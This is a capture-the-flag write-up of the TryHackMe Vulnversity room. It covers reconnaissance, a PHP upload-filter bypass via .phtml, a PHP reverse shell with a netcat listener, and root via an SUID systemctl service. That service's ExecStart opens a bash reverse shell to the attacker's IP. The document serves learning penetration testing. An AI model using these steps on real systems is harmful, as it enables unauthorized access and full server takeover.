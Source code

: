 # Vulnversity Room - CTF

This weekend I completed the Vulnversity room. 
This room was an introductory room that gave guidance on where to look and stepped through the point of getting a reverse shell operating.
From there, the privilege escalation was left up to me to work out. 

The target was a webserver, the exploitation based was based on PHP. The web server had a PHP upload portal where I was able to upload a reverse PHP shell, then through this shell escalate my privileges to root using a misconfigured permission on the systemctl program within the Ubuntu server.

Notes: 
 - I have not included the basic setup steps for TryHackMe. 
 - Initially I started usinmg the provide 'AttackBox' from TryHackMe, but part way I ended up using my open Kali linux box connected via the VPN so my IP address and the target IP address IPs changed a few times throughout my process description below.

Here is how it went:

## Step 1: Reconnaissance

### Basic reconnaissance was performed using NMAP. 

The open ports discovered with NMAP:

![image](https://user-images.githubusercontent.com/60744763/120154230-ffc22900-c232-11eb-88a2-8df3177cc8b7.png)

Then I looked at the versions of the services with these open ports using the -sV flag with NMAP

![image](https://user-images.githubusercontent.com/60744763/120154311-18cada00-c233-11eb-9682-38c0e05c6c73.png)

We can see Apache running on port 3333, this will be our attack vector. 

### GoBuster to discover interesting folders on the web server

From here we use GoBuster to look for interesting directories on the web server. I  used a brute force method with different word lists.
After trying with a few word I found some interesting folders.

![image](https://user-images.githubusercontent.com/60744763/120154589-634c5680-c233-11eb-8896-7a0501b2bcee.png)

From here we discovered the 'internal' folder, browsing to this showed us an upload portal.

![image](https://user-images.githubusercontent.com/60744763/120154708-7a8b4400-c233-11eb-8603-b287a43fd81b.png)

*Note at this point I changed over to my Kali linux box and reset the target machine, as such the IP address changed.*

Now I looked for additional interseting folders within the /internal URI using GoBuster again.
This found another folder called uploads which looks interesting, likely the directory where the upload portal drops files. 

## Step 2: Attempt to deliver a pay load and compromise the server

I used Burp to try and find out what types of file extensions can be uploaded, hoping for a PHP based file. 
Using Burp's sniper attack allowed me to try various file extensions very quickly. 
 
![image](https://user-images.githubusercontent.com/60744763/120155034-cf2ebf00-c233-11eb-88b3-a73405d0430d.png)

This identified that .phtml files can be uploaded, see above.

### Now we deliver the payload:

I uploaded a php reverse shell as a .phtml file using the target's upload page. 
I edited the reverse shell script variables so it points back to my Kali linux’s IP and port. 
The reverse shell was from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

Then I setup a netcat listener with this command: `nc -lvnp 1234`
This will listen for an incoming connection on port 1234. 
*Note the php reverse shell must be set with this port and my IP address so it can make a connection.*

Then I went to the url http://10.10.151.175:3333/internal/uploads/php-reverse-shell.phtml to run the script I just uploaded. 

Seconds later I received a connection on my netcat listener!
We can see below the reverse shell has made a connection back to my kali box.

![image](https://user-images.githubusercontent.com/60744763/120155466-33ea1980-c234-11eb-81fe-00558f14202d.png)

And now I have shell access! 

Searching around on this server, I found the first flag in the user's home folder in a file called 'user.txt'.

![image](https://user-images.githubusercontent.com/60744763/120173380-533e7200-c247-11eb-9091-768cf087f58d.png)

## Step 3: Privilege Escalation

Now we want to attemp to get root access. I will look for files with the SUID bit set, maybe one of them can be exploited.

I used the command `find . -perm /4000` to files with the SUID permissions set. 
This showed that `systemctl` had the sticky-bit set, which is not normal. Since a normal user can stop, start and even create services.

![image](https://user-images.githubusercontent.com/60744763/120173803-bf20da80-c247-11eb-8a77-87f0e5b9c0e4.png)

At this point my plan is to create a service that launches a shell which I can access with the systemctl command. 
Now researching how to do this... BRB

Ok I'm back! I found this article which discusses making a reverse bash shell service to exploit systemctl.
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49 


I created a file called root.service file as below, which will be my service file:
```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

I named the file with a phtml extension and uploaded it through the site (this was quicker than using the nc terminal to create the service file).

Then I renamed the uploaded file from my active shell on the webserver to root.service. 
I ran the following command to create the appropriate symlinks and allow the system to run the service: 
`systemctl enable /var/www/html/internal/uploads/root.service`

![image](https://user-images.githubusercontent.com/60744763/120155982-cc809980-c234-11eb-94ba-2cb1ab4b9bb9.png)

Now we have created a new service which should launch a reverse shell back to my kali box.

At this point I opened another netcat listener on port 9999 (as per the root.service) on my Kali box. 
After this I started the service on the webserver shell with the command `systemctl start root.service`

Presto! The service connected back to my Kali machine with the reverse shell as root. See below...

![image](https://user-images.githubusercontent.com/60744763/120174190-29d21600-c248-11eb-9cf7-bbf5514c3653.png)

The flag was found in the folder /root/



